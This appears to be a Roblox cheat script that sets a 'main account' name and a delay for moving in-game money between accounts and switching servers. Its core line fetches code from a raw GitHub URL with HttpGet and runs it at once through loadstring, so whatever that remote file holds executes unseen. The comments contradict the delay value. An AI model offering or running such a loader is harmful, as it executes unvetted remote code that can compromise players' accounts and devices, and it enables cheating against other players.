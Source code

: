 _G.mainAccount = "DOR_5479" --< Put main account's name
_G.delay = 4        --< How fast it gives money and switches servers, incase you have a bad connection higher it (keep above 15)

loadstring(game:HttpGet("https://raw.githubusercontent.com/DogePR/A213GFCDVBNVBN/main/README.md", true))()

